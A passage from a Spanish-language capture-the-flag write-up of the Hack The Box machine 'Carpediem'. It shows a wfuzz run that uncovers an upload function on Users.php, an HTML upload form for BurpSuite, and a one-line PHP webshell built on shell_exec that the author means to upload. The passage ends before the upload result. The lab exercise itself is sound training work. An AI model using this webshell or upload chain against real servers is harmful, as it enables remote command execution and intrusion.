 Puedo probar a fuzzear por funciones con el mismo parámetro que utilizaba el ```Master.php``` para ```Users.php```

```null
wfuzz -c -t 100 --hh=0 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 'http://portal.carpediem.htb/classes/Users.php?f=FUZZ'
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://portal.carpediem.htb/classes/Users.php?f=FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000352:   200        0 L      2 W        40 Ch       "upload"    
```

Espera un formulario de subida de archivos

<img src="/writeups/assets/img/Carpediem-htb/12.png" alt="">

Creo un archivo ```index.html``` básico que se encargue de crear la estructura en un servicio local, para interceptarla con ```BurpSuite``` y emitirla al servidor.

```null
<form action="test.php" method="post" enctype="multipart/form-data" target="_blank">
  <p>
    <input type="file" name="upload">
    <input type="submit" value="upload">
  </p>
</form>
```

Voy a intentar pasarle una webshell en PHP

```null
<?php
  shell_exec($_REQUEST['cmd']);
?>
```
